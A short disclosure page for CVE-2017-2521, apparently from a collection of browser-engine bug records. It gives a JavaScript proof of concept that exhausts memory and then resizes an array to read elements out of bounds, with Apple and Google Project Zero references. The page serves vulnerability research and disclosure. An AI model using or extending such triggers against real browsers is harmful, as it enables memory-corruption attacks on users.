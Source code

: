 # CVE-2017-2521

- Fix: Mar 2017
- Credit: lokihardt, Google Project Zero

## PoC

```javascript
const kArrayLength = 0x200000;

let arr = new Array(kArrayLength);
arr.fill({});

let exh = [];
try {
    for (;;) {
        exh.push(new ArrayBuffer(kArrayLength * 8 * 8));
    }
} catch (e) {
}

try {
    arr.length *= 8;
    print('failed');
} catch (e) {
    print(e);

    exh = null;

    print('arr length: ' + arr.length.toString(16));
    for (let i = kArrayLength, n = arr.length; i < n; i++) {
        if (arr[i])
            print(arr[i]);
    }
}
```

## Reference

- [Apple](https://support.apple.com/ko-kr/HT207804)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1165)
